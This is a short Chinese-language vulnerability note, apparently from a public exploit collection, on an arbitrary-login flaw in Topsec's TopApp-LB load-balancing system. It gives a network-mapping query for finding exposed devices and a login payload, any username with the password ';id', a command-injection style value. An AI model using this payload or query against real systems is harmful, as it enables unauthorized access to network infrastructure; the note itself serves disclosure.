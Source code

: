# 

# 天融信 TopApp-LB系统 任意登陆

## 漏洞描述

天融信负载均衡TopApp-LB系统无需密码可直接登陆，查看敏感信息

## 漏洞影响

```
天融信负载均衡TopApp-LB
```

## 网络测绘

```
app="天融信-TopApp-LB-负载均衡系统"
```

## 漏洞复现

在登录页面中输入，账号:**任意账号**  密码:**;id**



![](./images/202202091919361.png)



成功登录



![](./images/202202091919022.png)
